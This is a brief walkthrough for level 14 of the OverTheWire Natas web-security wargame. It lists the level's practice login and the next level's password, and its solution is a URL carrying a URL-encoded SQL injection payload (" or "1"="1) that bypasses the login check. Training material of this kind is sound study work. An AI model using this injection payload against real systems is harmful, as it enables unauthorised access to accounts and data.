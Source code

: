 ### Natas Level 14

[natas14](http://natas14.natas.labs.overthewire.org)

**Username**: *natas14*

**Password**: *Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1*

### Solution

* SQLi
* Visit url http://natas14.natas.labs.overthewire.org/index.php?username=test%22%20or%20%221%22=%221&password=test%22%20or%20%221%22=%221&debug

#### Credentials for Level 15

**Username**: *natas15*

**Password**: *AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J*
